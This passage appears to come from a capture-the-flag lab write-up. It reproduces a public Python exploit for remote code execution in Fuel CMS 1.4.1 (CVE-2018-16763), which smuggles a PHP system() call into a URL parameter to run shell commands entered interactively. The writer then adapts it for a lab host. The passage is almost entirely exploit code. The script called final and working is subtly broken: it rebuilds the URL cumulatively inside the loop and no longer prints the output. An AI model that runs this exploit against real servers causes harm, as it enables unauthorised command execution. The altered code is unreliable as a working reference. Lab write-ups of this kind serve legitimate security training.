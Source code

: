 Let's use the last one:
```
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

Though, as we can see, it tries to use a proxy and localhost as the target, so let's change those. The final working script would be:
```
import requests
import urllib

url = "http://10.10.93.16"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        r = requests.get(url)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

```